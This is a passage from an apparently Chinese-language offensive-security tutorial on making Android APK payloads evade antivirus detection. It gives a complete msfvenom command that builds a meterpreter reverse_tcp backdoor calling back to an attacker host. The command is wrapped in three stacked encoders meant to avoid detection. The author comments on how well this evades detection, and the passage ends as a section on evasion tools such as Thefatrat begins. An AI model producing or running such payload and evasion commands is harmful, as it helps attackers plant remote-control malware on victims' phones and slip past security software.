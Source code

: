 [![](assets/1701606948-dd42efc2aa8fa6942f460fc73b1411c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102213-a8c1f180-664a-1.png)  
  
使用多重编码，增大免杀概率

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -a dalvik --encoder x86/call4_dword_xor --iterations 5 --encoder x86/countdown --iterations 4 --encoder x86/shikata_ga_nai --iterations 3 -o encoded.apk
```

这里用到了 x86/call4\_dword\_xor，x86/countdown，x86/shikata\_ga\_nai 三个编码器  
  
[![](assets/1701606948-f86a09e3047a369ec0ae34eb1369ad9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102226-b05d48ea-664a-1.png)  
  
没想到免杀效果反而变弱了，只能说是有的编码器特征已经被记录在了检测引擎里面，只要用了就会被检测到

## 工具免杀

> APK免杀的工具好像比较少

### Thefatrat
